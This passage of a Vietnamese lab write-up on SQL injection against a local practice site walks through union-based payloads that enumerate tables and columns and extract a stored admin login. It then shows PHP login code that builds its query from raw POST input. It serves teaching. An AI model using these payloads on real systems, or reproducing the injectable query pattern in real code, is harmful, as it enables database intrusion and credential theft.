 Từ đây em bắt đầu sử dụng union và xác định xem dữ liệu được hiện ra cho em là từ cột nào:
`union select 'a',null,null -- `
`union select null,'a',null -- `
`union select null,null,'a' -- `
![](https://i.imgur.com/tc0UIyj.png)

Sau khi xác định được dữ liệu được hiện ra màn hình là từ cột thứ 2 em bắt đầu thực hiện bước tiếp theo

**Bước 3: Tìm tên bảng, tên cột**

Em tìm tên của tất cả các bảng bằng: `' union select null,table_name,null FROM information_schema.tables-- `

![](https://i.imgur.com/DzpFe6d.png)

Sau đó ghi lại những bảng mà em cho rằng có khả năng là bảng mà lưu dữ liệu em cần, ví dụ như bảng `task_3`.

Lấy tên những bảng đó và đi tìm tên cột bằng: `' union select null,column_name,null FROM information_schema.columns where table_name="task_3" -- `

![](https://i.imgur.com/wjUcASp.png)

Vậy là em đã tìm được tên của các cột có trong bảng  `task_3` là `id`, `username` và `password`.

**Bước 4: Lấy dữ liệu**

Sau khi đã có được tên bảng cũng như tên cột em dùng: `' union select null,concat(username, '~', password) ,null FROM task_3 -- ` để lấy ra `username` và `password` trong cùng 1 cột thứ 2 và được nối với nhau bằng ký tự `~`.

![](https://i.imgur.com/lsazAyb.png)

*=>Vậy là ta đã có được thông tin của admin: `admin~admin123`.*

---
## Boolean based
Source code: 
```php
    if(isset($_POST['login'])) {
        $username = $_POST['username'];
        $password = $_POST['password'];
        $conn = mysqli_connect("localhost", "root", "", "kcsc");
        $sql = "SELECT * FROM `task_3` WHERE `username` = '$username' AND `password` = '$password'";
        $resullt = mysqli_query($conn, $sql);   
        // $row = mysqli_num_rows($resullt);
        if($resullt) {
            if (isset($_POST['remember'])) {
                setcookie('remember', base64_encode($username.md5($username)), time() + (86400 * 30), "/");
            } else {
                setcookie('remember', '', time() - 3600, "/");
            }
            if($row = mysqli_num_rows($resullt)){

                echo '<br><center>Hello brooooooooooo!</center>';
                echo '
                <div class="d-flex align-items-center justify-content-center mt-5">
                <form method="post">
                <div class="d-flex justify-content-end me-3">
                <button type="submit" class="btn btn-secondary" name="logout">Logout</button>
                </div>
                </form>
                </div>';
```